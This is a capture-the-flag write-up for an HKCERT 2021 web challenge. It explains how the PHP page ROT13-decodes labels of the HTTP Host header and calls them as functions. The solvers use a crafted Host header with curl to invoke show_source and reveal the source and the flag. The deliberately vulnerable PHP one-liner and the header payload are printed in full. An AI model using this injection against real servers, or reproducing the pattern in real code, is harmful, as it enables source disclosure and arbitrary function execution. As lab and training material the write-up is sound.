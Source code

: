 # CTF Tuning Master (Read) 暈暈陀陀 1 (150 point, 15 solves, ★☆☆☆☆)

Solved by: Kaiziron and grhkm

### Description :
```
Do you know how to cast spells, Shaman King?

http://偽女子.柳枊曳曳棘朿.ctf通靈師.hkcert.dsa.2048.pub:28237

http://偽女子.哪咧嘩唔咬哤.ctf通靈師.hkcert.dsa.2048.pub:28237

Part 1: Read the source code of home page
```
---
### Solution :

The url are using punycode
```
http://偽女子.柳枊曳曳棘朿.ctf通靈師.hkcert.dsa.2048.pub:28237
http://xn--czq51t5pb.xn--mova2urk5r76b.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub:28237/
```
```
http://偽女子.哪咧嘩唔咬哤.ctf通靈師.hkcert.dsa.2048.pub:28237
http://xn--czq51t5pb.xn--surk2ova5so5d.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub:28237/
```
First url :
![](https://i.imgur.com/Cl4T2LN.png)

It is giving out weird numbers

Second url :
![](https://i.imgur.com/ggc2hrX.png)

It is giving out some unprintable characters

Then I try to remove part of the domain name of first url

![](https://i.imgur.com/TnzCmpG.png)

The data its showing has changed

If I convert the hex `2f7661722f7777772f68746d6c2f696e6465782e706870` to ascii, it will become `/var/www/html/index.php` which is the full path of the file

Then, I do the same on the second url

![](https://i.imgur.com/DyAC8Ev.png)

it show error for hex2bin() function


Then I tried to remove a character on the first url :

![](https://i.imgur.com/AjkWYLQ.png)

```
Fatal error: Uncaught Error: Call to undefined function bin2h() in /var/www/html/index.php:1 Stack trace: #0 [internal function]: {closure}('/var/www/html/i...', 'xn--mova2urkt1d') #1 /var/www/html/index.php(1): array_reduce(Array, Object(Closure), '/var/www/html/i...') #2 {main} thrown in /var/www/html/index.php on line 1
```

Then it has error showing its trying to call the bin2h() function


Then I realize, is it related to the host http request header

The bin2h() function originally should be bin2hex(), but I removed some character, so it becomes bin2h()

```
curl -H 'Host: xn--czq51t5pb.xn--mova2urk5r76b.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub' http://xn--czq51t5pb.xn--mova2urk5r76b.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub:28237/
3734363665383864343539356638366230643534353466336439316435373639
curl -H 'Host: xn--czq51t5pb.xn--mova2urk5r76b.x.x.x.x.x' http://xn--czq51t5pb.xn--mova2urk5r76b.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub:28237/
3734363665383864343539356638366230643534353466336439316435373639
```


Then I found out that it is taking in the host header using `.` as the delimiter, it will ignore the top level domain to the fifth level domain part as modifying it won't affect the response of the page, and from the sixth level, it will take in as input 

This is the url that will show error for hex2bin() function
```
http://哪咧嘩唔咬哤.ctf通靈師.hkcert.dsa.2048.pub:28237
http://xn--surk2ova5so5d.xn--ctf-tk2f171td9i.hkcert.dsa.2048.pub:28237/
```

This part has the 2 character :
```xn--surk2ova5so5d```

and this part `urk2ova` can be converted to `hex2bin` by ROT13 

It will ignore the 5 characters on the left and 5 characters on the right, and execute the function using the full path of the file `/var/www/html/index.php` as the argument

The challenge is the read the file, the argument is the file path, so I can just use `show_source` to read the source

Convert `show_source` to `fubj_fbhepr` by ROT13

Then just set the http host header to 
```Host: xxxxxfubj_fbheprxxxxx.x.x.x.x.x```

![](https://i.imgur.com/XvbxH7s.png)

```php
<?=array_reduce(explode(".",$_SERVER["HTTP_HOST"],-5),function($p,$q){return str_rot13(substr($q,5,-5))($p);},__FILE__);//hkcert21{HA*HA*HA*NA*HA*NA*SE*HA*HA*NA*NA*SE}
```
### Flag :
`hkcert21{HA*HA*HA*NA*HA*NA*SE*HA*HA*NA*NA*SE}`